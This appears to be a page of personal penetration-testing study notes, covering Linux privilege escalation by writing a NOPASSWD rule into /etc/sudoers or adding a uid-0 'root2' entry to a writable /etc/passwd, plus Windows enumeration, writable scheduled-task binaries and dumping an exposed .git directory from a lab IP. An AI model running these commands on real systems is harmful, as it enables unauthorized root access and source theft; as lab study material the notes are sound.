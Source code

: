```jsx
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

```jsx
openssl passwd 123
root2:{HASH}:0:0:root:/root:/bin/bash
```

[Writable /etc/passwd → Root](https://www.notion.so/Writable-etc-passwd-Root-7b5d52c6cf954cc79a13813a525c68e8?pvs=21) 

## Windows

[Windows Local Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)



### System

```jsx


ipconfig
Get-ADdomain
netstat -a

```



### Enumeration Files | Services | Tasks



```



```jsx
schtasks /query /fo LIST /v | Select-String -Pattern "TaskName:"
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run:"

schtasks /query /fo LIST /v /tn \Microsoft\CacheCleanup
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

### Git

```jsx
gci -Recurse -Filter ".git" -Directory -ErrorAction SilentlyContinue -Path "C:\Users\"
```

```jsx
git clone https://github.com/arthaud/git-dumper.git
python -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python git_dumper.py http://192.168.217.144/.git ~/Documents/oscpA/git144
```
